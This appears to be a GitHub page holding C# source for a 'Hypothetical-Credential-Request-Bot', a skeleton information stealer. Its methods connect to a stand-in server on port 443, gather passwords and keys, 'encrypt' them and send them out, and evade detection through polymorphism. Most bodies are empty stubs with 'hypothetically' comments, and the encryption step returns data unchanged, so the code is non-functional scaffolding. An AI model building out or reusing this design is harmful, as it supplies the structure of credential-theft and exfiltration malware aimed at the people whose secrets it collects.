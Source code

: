 # Hypothetical-Credential-Request-Bot
Coded in C#
using System;
using System.Net;
using System.Net.Sockets;

public class HypotheticalBot
{
    public static void Main()
    {
        try
        {
            EstablishSecureConnection();
            StealInformation();
            EvadeDetection();
        }
        catch (Exception ex)
        {
            Console.WriteLine("An error occurred: " + ex.Message);
        }
    }

    public static void EstablishSecureConnection()
    {
        try
        {
            string serverAddress = "hypothetical_server.com";
            int port = 443;

            using (TcpClient client = new TcpClient())
            {
                client.Connect(serverAddress, port);
                // Hypothetically implement SSL here
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error establishing secure connection: " + ex.Message);
        }
    }

    public static void StealInformation()
    {
        try
        {
            string sensitiveData = GatherSensitiveData();
            string encryptedData = EncryptionLibrary.Encrypt(sensitiveData);
            SendDataToServer(encryptedData);
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error stealing information: " + ex.Message);
        }
    }

    public static void EvadeDetection()
    {
        try
        {
            // Hypothetically implement techniques like polymorphism
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error evading detection: " + ex.Message);
        }
    }

    public static string GatherSensitiveData()
    {
        try
        {
            // Hypothetically collect data such as passwords, keys, etc.
            return "";
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error gathering sensitive data: " + ex.Message);
            return "";
        }
    }

    public static void SendDataToServer(string data)
    {
        try
        {
            // Hypothetically send data over the secure connection
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error sending data to server: " + ex.Message);
        }
    }
}

public static class EncryptionLibrary
{
    public static string Encrypt(string data)
    {
        try
        {
            // Hypothetically implement encryption algorithm
            return data;
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error encrypting data: " + ex.Message);
            return data;
        }
    }
}
